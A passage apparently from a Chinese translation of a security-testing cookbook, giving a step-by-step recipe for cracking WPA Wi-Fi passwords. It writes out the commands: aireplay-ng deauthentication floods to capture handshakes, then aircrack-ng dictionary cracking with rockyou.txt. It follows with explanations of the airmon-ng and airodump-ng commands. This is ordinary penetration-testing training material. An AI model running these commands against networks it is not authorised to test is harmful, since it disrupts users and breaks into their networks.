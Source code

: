 1.  现在我们将不得不对现有客户端进行去认证，以捕获他们对无线路由器的握手请求，因为它将包含认证凭据。只有在去认证期间，我们才能成功捕获加密密码：

```
          aireplay-ng --deauth 1000 -a xx:xx:xx:xx:xx:xx wlan0mon

    ```

输出将如下截图所示：

![如何做...](img/image_10_020.jpg)

1.  现在经过认证的用户将被迫重新认证近 1000 次，之后，如果我们在右上角查看我们的`airodump-ng`，我们将找到 WPA 握手，这意味着我们成功捕获了流量。我们现在可以通过按*Ctrl* + *C*来终止转储。认证数据包越多，我们破解密码的机会就越大。

1.  现在我们将开始对转储文件进行 WPA 破解。我们需要注意文件名以多个扩展名保存，并根据迭代号添加了`-01`；`rockyou.txt`是一个包含常用密码和字母数字组合的字典，将用于对捕获文件进行猜测密码：

```
          aircrack-ng WPACrack-01.cap -w /usr/share/wordlists/rockyou.txt

    ```

输出将如下截图所示：

![如何做...](img/image_10_021.jpg)

1.  我们已成功解密密码。

## 它是如何工作的...

让我们了解前面食谱的命令：

+   `airmon-ng start wlan0`：这将启动无线适配器并将其设置为监视模式；监视模式对于在网络上注入和嗅探数据包是必不可少的

+   `airodump-ng wlan0mon`：此命令列出了可用的无线网络，我们可以捕获其数据包

```
      airodump-ng --bssid xx:xx:xx:xx:xx:xx -c X --write WPACrack      wlan0mon:
```

